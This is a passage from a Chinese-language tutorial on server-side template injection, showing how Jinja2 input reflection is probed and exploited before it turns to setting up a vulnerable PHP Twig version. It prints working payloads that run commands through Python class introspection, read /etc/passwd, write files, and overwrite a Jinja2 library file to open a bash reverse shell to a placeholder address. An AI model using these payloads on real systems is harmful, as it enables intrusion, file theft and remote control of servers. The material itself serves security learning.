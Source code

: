 可见这里直接将 name 获取到的值输入进 jinja2执行。可以利用这个点进行 SSTI 模板注入。

测试如下：
```
?name=WDNMD.{{7*7}}
```
输出为:`Hello WDNMD.49`


```
ip?name=WDNMD.{{1+1}}
```
输出为:`Hello WDNMD.2`

由此就有大佬找出了任意命令执行的方法了。

python3
```bash
#命令执行：
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('whoami').read()") }}{% endif %}{% endfor %}

#文件操作
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('filename', 'r').read() }}{% endif %}{% endfor %}
```

python2

[注入变量执行命令](http://www.freebuf.com/articles/web/98928.html)

```bash
#读文件：
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}

#写文件：
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/1').write("") }}
```

也可以通过写jinja2的environment.py执行命令。

```bash
#假设在/usr/lib/python2.7/dist-packages/jinja2/environment.py, 弹一个shell
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/usr/lib/python2.7/dist-packages/jinja2/environment.py').write("\nos.system('bash -i >& /dev/tcp/[IP_ADDR]/[PORT] 0>&1')") }
```



### PHP

**TWIG**


搭建使用 [TWIG v1.11.1版本](https://github.com/twigphp/Twig/releases/tag/v1.11.1)

当然如果想配合tplmap拿shell建议使用[版本<=v1.9](https://github.com/twigphp/Twig/releases/tag/v1.8.3)

将下载下来的文件中的`lib`文件提取到PHP目录下
